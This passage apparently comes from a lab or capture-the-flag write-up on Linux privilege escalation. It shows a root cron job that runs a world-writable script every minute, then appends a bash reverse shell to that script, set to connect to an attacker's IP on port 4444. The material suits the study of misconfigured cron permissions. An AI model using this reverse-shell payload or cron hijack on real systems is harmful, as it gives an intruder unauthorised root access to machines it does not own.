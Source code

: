 ### /etc/crontab

```tsx
bash-4.4$ cat /etc/crontab
cat /etc/crontab                                                                                                    
# /etc/crontab: system-wide crontab                                                                                 
# Unlike any other crontab you don't have to run the `crontab'                                                      
# command to install the new version when you edit this file                                                        
# and files in /etc/cron.d. These files also have username fields,                                                  
# that none of the other crontabs do.                                                                               
                                                                                                                    
SHELL=/bin/sh                                                                                                       
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin                                                   
                                                                                                                    
# m h dom mon dow user  command                                                                                     
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly                                                 
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )                 
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )                
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )               
*  *    * * *   root    /var/backups/script.sh
```

The `/var/backups/script.sh` is automatically executed by `root` user through every minutes. Let’s check its permission:

```tsx
bash-4.4$ ls -l /var/backups/script.sh                                                                              
ls -l /var/backups/script.sh                                                                                        
-rwxrwxrwx 1 root root 73 Oct  7  2020 /var/backups/script.sh
```

The `script.sh` file is allowed to be override by every user in the system. Embed the reverse payload into it:

```tsx
bash-4.4$ echo "bash -i >& /dev/tcp/10.8.97.213/4444 0>&1" >> /var/backups/script.sh
<cp/10.8.97.213/4444 0>&1" >> /var/backups/script.sh
bash-4.4$ cat /var/backups/script.sh
cat /var/backups/script.sh
#!/bin/bash

#Just a test script, might use it later to for a cron task 
bash -i >& /dev/tcp/10.8.97.213/4444 0>&1
```
